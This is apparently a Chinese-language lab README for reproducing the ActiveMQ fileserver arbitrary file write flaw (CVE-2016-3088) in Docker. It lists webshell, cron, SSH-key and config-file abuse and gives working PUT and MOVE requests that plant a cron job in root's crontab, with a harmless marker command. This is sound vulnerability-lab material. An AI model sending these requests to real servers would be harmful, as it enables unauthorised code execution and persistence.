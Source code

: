 # ActiveMQ任意文件写入漏洞（CVE-2016-3088）

## 环境搭建

搭建及运行漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境监听61616端口和8161端口，其中8161为web控制台端口，本漏洞就出现在web控制台中。

访问`http://your-ip:8161/`看到web页面，说明环境已成功运行。

## 背景简述

ActiveMQ的web控制台分三个应用，admin、api和fileserver，其中admin是管理员页面，api是接口，fileserver是储存文件的接口；admin和api都需要登录后才能使用，fileserver无需登录。

fileserver是一个RESTful API接口，我们可以通过GET、PUT、DELETE等HTTP请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷，但后来发现：

1. 其使用率并不高
2. 文件操作容易出现漏洞

所以，ActiveMQ在5.12.x~5.13.x版本中，已经默认关闭了fileserver这个应用（你可以在conf/jetty.xml中开启之）；在5.14.0版本以后，彻底删除了fileserver应用。

在测试过程中，可以关注ActiveMQ的版本，避免走弯路。

## 漏洞详情

本漏洞出现在fileserver应用中，漏洞原理其实非常简单，就是fileserver支持写入文件（但不解析jsp），同时支持移动文件（MOVE请求）。所以，我们只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞。

文件写入有几种利用方法：

1. 写入webshell
2. 写入cron或ssh key等文件
3. 写入jar或jetty.xml等库和配置文件

写入webshell的好处是，门槛低更方便，但前面也说了fileserver不解析jsp，admin和api两个应用都需要登录才能访问，所以有点鸡肋；写入cron或ssh key，好处是直接反弹拿shell，也比较方便，缺点是需要root权限；写入jar，稍微麻烦点（需要jar的后门），写入xml配置文件，这个方法比较靠谱，但有个鸡肋点是：我们需要知道activemq的绝对路径。

```
PUT /fileserver/1.txt HTTP/1.1
Host: your-ip:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 57

*/1 * * * * touch /tmp/success
```

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///var/spool/cron/crontabs/root
Host: your-ip:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

